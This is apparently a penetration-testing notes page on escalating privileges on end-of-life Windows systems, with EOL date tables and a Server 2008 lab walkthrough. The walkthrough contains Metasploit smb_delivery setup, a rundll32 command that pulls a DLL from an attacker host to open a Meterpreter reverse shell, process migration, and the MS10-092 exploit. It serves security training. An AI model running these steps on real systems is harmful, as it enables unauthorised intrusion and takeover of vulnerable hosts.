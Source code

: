 ```yaml
---
title: Windows- End of Life Systems
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - privilege
  - escalation
  - windows
---
```

# Windows: End of Life Systems

Over time, Microsoft decides to no longer offer ongoing support for specific operating system versions. When they stop supporting a version of Windows, they stop releasing security updates for the version in question.

| Version                 | Date              |
| ----------------------- | ----------------- |
| Windows XP              | April 8, 2014     |
| Windows Vista           | April 11, 2017    |
| Windows 7               | January 14, 2020  |
| Windows 8               | January 12, 2016  |
| Windows 8.1             | January 10, 2023  |
| Windows 10 release 1507 | May 9, 2017       |
| Windows 10 release 1703 | October 9, 2018   |
| Windows 10 release 1809 | November 10, 2020 |
| Windows 10 release 1903 | December 8, 2020  |
| Windows 10 release 1909 | May 11, 2021      |
| Windows 10 release 2004 | December 14, 2021 |
| Windows 10 release 20H2 | May 10, 2022      |


#### Windows Server - EOL Dates by Version

| Version                | Date             |
| ---------------------- | ---------------- |
| Windows Server 2003    | April 8, 2014    |
| Windows Server 2003 R2 | July 14, 2015    |
| Windows Server 2008    | January 14, 2020 |
| Windows Server 2008 R2 | January 14, 2020 |
| Windows Server 2012    | October 10, 2023 |
| Windows Server 2012 R2 | October 10, 2023 |
| Windows Server 2016    | January 12, 2027 |
| Windows Server 2019    | January 9, 2029  |


[More details from Microsoft](https://michaelspice.net/windows/end-of-life-microsoft-windows-and-office/). 

In some instances, it is difficult or impossible for an organization to upgrade or retire an end-of-life system due to cost and personnel constraints.

## Windows Server: Server 2008 Case Study

For an older OS like Windows Server 2008, we can use:

- an enumeration script like [Sherlock](sherlock.md) to look for missing patches.
- [Windows-Exploit-Suggester](https://github.com/amandaguglieri/Windows-Exploit-Suggester), which takes the results of the `systeminfo` command as an input, and compares the patch level of the host against the Microsoft vulnerability database to detect potential missing patches on the target.

List existing windows updates:

```cmd-session
wmic qfe
```


#### Running Sherlock


```powershell
Set-ExecutionPolicy bypass -Scope process

Import-Module .\Sherlock.ps1

Find-AllVulns
```

**Obtaining a Meterpreter Shell**: From the output, we can see several missing patches. From here, let's get a Metasploit shell back on the system and attempt to escalate privileges using one of the identified CVEs.

First, we need to obtain a `Meterpreter` reverse shell. We can do this several ways, but one easy way is using the `smb_delivery` module.

```bash
# From our kali attacking machine
msfconsole -q
search smb_delivery
use 0
show options
set target 0
setg LHOST 10.10.14.33
set SRVHOST 10.10.14.33
set LPORT 3333
```

Output:

```
rundll32.exe \\10.10.14.33\lanb\test.dll,0
```

Now we run from the windows host target:

```powershell
rundll32.exe \\10.10.14.33\lanb\test.dll,0
```

And we will receive the reverse shell. Send to the background:

```
bg
```


#### Searching for Local Privilege Escalation Exploit

From here, let's search for the [MS10_092 Windows Task Scheduler '.XML' Privilege Escalation](https://www.exploit-db.com/exploits/19930) module.

```bash
# FRom our attacking machine, we send the session to the background and search for the new exploit:
search 2010-3338
use 0
show options
```

**Migrating to a 64-bit Process**: Before using the module in question, we need to hop into our Meterpreter shell and migrate to a 64-bit process, or the exploit will not work. We could have also chosen an x64 Meterpeter payload during the smb_delivery step.

```shell-session
sessions -i 1

# Now we are in the meterpreter
getpid
ps
```

Output:

```
...SNIP...

 2796  2632  conhost.exe        x64   2        WINLPE-2K8\htb-student  C:\Windows\System32\conhost.exe
 2876  476   svchost.exe
 3048  476   svchost.exe
 ... SNIP ...
```

We will migrate to the process with 64-bit process:

```bash
migrate 2796
```

Output:

```
[*] Migrating from 2268 to 2796...
[*] Migration completed successfully.
```

Send to background and continue the configuration:

```
background
set SESSION 1
set LPORT 4443
exploit

# You may also need to
set ForceExploit true
```



## Windows Desktop Versions: Windows 7 Case Study

Let's look at a Windows 7 host that we may uncover in one of the sectors mentioned above. For our Windows 7 target, we can use `Sherlock` again like in the Server 2008 example, but let's take a look at [Windows-Exploit-Suggester](https://github.com/amandaguglieri/Windows-Exploit-Suggester)

